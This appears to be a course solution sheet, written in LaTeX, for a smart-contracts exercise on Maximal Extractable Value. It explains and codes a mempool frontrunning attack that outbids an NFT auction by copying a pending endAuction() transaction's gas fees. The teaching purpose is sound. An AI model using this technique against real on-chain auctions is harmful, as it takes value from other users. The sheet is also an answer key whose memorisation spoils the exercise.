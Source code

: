 \documentclass[12pt]{article}
\title{Smart Contracts Exercise 08: \\ Maximal Extractable Value -- Solution}
\author{}
\date{}
\begin{document}
\maketitle

\noindent
The solved Exercise 08 - Maximal Extractable Value can be found in this \href{https://gitlab.fel.cvut.cz/radovluk/smart-contracts-exercises/-/tree/main/08-Maximal-Extractable-Value/solution/solution-code?ref_type=heads}{GitLab repository}.

\section*{Solution to Task 1: NFT Auction Frontrunning}

The solution employs the following strategy:

\begin{enumerate}
\item Monitor the mempool for the \texttt{endAuction()} transaction
\item Extract the gas parameters from the pending transaction
\item Submit our bid with higher gas parameters to ensure it gets mined first
\item Wait for our bid and the \texttt{endAuction()} transaction to be mined
\item Claim the NFT
\end{enumerate}

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// See the mempool
pendingBlock = await network.provider.send("eth_getBlockByNumber", [
  "pending",
  false,
]);

// Use our explorer function to show detailed transaction info
targetTx = await exploreMempoolTransactions(
  pendingBlock.transactions,
  auction,
  "endAuction"
);
const frontrunTx = {
  to: auction.target,
  data: auction.interface.encodeFunctionData("bid"),
  value: ethers.parseEther("1.5") + 1n, // Bid 1.5 ETH + 1 wei
  type: 2, // EIP-1559 transaction
  maxPriorityFeePerGas: targetTx.maxPriorityFeePerGas + 1000000000n, // +1 Gwei
  maxFeePerGas: targetTx.maxFeePerGas + 1000000000n, // +1 Gwei
  gasLimit: 500000, // Ensure enough gas is provided
};

// Send our frontrunning transaction
await player.sendTransaction(frontrunTx);
console.log("Player sent frontrunning transaction");
\end{verbatim}
\end{minipage}
\end{document}

